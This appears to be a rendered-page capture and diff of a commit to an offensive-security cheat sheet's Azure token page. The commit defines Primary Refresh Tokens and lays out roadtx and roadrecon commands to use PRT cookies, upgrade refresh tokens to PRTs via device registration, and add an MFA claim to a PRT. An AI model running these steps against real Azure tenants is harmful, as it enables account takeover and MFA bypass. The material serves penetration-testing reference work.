

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/cloud/azure/azure-access-and-token.md, in a window 1280 px wide and 1400 px high, scrolled down 2263 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3440 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
PRT and MFA

````diff
--- a/docs/cloud/azure/azure-access-and-token.md
+++ b/docs/cloud/azure/azure-access-and-token.md
@@ -89,6 +89,8 @@
 
 ## Primary Refresh Token
 
+A Primary Refresh Token (PRT) is a key artifact in the authentication and identity management process in Microsoft's Azure AD (Azure Active Directory) environment. The PRT is primarily used for maintaining a seamless sign-in experience on devices.
+
 * Use PRT token
     ```ps1
     roadtx browserprtauth --prt <prt-token> --prt-sessionkey <session-key>
@@ -112,21 +114,12 @@
 * No method known to date.
 
 
-### Upgrade Refresh Token to PRT
+### Use PRT cookie
 
-```ps1
-# Get correct token audience
-roadtx gettokens -c 29d9ed98-a469-4536-ade2-f981bc1d605e -r urn:ms-drs:enterpriseregistration.windows.net --refresh-token file
-
-# Registering device
-roadtx device -a register -n <device-name>
-
-# Request PRT
-roadtx prt --refresh-token <refresh-token> -c <device-name>.pem -k <device-name>.key
-
-# Use a PRT
-roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
-```
+* `roadrecon auth prt-init`
+* Use [dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken) or [wotwot563/aad_prt_bof](https://github.com/wotwot563/aad_prt_bof)
+* `roadrecon auth --prt-cookie <prt-cookie> --tokens-stdout --debug`
+* Then browse to [login.microsoftonline.com ](login.microsoftonline.com ) with a cookie `x-ms-RefreshTokenCredential:<output-from-roadrecon>`
 
 
 ### Request a PRT with Hybrid Device
@@ -146,6 +139,20 @@
     ```
 
 
+### Upgrade Refresh Token to PRT
+
+* Get correct token audience: `roadtx gettokens -c 29d9ed98-a469-4536-ade2-f981bc1d605e -r urn:ms-drs:enterpriseregistration.windows.net --refresh-token file`
+* Registering device: `roadtx device -a register -n <device-name>`
+* Request PRT `roadtx prt --refresh-token <refresh-token> -c <device-name>.pem -k <device-name>.key`
+* Use a PRT: `roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com`
+
+
+### Enriching a PRT with MFA claim
+
+* Request a special refresh token: `roadtx prtenrich -u username@domain`
+* Request a PRT with MFA claim: `roadtx prt -r <refreshtoken> -c <device>.pem -k <device>.key`
+
+
 ## References
 
 * [Hacking Your Cloud: Tokens Edition 2.0 - Edwin David - April 13, 2023](https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0)
````
